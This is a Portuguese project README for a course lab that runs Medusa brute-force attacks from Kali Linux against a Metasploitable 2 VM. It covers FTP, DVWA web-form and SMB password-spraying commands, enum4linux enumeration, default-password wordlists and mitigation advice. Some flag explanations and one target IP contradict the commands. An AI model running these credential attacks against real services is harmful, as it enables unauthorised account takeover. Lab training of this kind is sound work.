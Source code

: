 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlad**o)



Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox — host-only / rede interna).



⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**



* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* images/ (screenshots)



**Objetivos do projeto:**



1. Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only / interna.
2. Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3. Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4. Estrutura das VMs (configuração sugerida)
5. Instalar VirtualBox.
6. Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7. VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8. VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9. Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux)
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).



**Comandos - varredura inicial**



Descobrir serviços com nmap:


```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```


**Ataque FTP com Medusa**



Objetivo: força bruta contra usuário conhecido (ex: admin) com uma wordlist pequena.



\# Exemplo: testar usuário admin com wordlists no host 192.168.56.101

medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6



**Explicação das flags:**



-h host alvo



-u usuário único (use -U para arquivo de usuários)



-P caminho da wordlist de senhas



-M ftp módulo FTP



-T 6 threads (ajuste conforme ambiente)



-f encerra ao encontrar credenciais válidas



Validação: após encontrar credenciais, faça login com ftp:



ftp 192.168.56.101



**Ataque a formulário web (DVWA) com Medusa (http\_form)**



DVWA costuma ter login em /dvwa/login.php. Exemplo de uso do módulo http\_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):



\# Exemplo genérico de http\_form (substitua os campos conforme o formulário real)

-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \\

-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \\

-m 'FAIL=Login failed' -t 6



Validação: tente fazer login no navegador usando as credenciais encontradas



**Password spraying em SMB (com enumeração de usuários)**



* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).



\# Enumeração com enum4linux

enum4linux -a 192.168.56.101 | tee enum4\_output.txt



\#Crie wordlists conforme ajuste:



echo -e "user\\nmsfadmin\\nservice" > smb\_users.txt



echo -e "password\\n123456\\nWelcome123\\nmsfadmin" > senhas spray.txt



Medusa smbnt (sintaxe genérica — ajuste conforme versão):



\# Usando arquivo de usuários (-U) e uma pequena wordlist (-P)

medusa -h 192.168.56.101 -U smb\_users.txt -P senhas\_spray.txt -M smbnt -t 2 -T 50



* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal / spraying: para vários usuários tenta poucas senhas comuns.



Validação: se houver credenciais válidas, usar smbclient para acesso:



smbclient -L //192.168.56.20 -U msfadmin



**Recomendações de mitigação (boas práticas):**



* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.



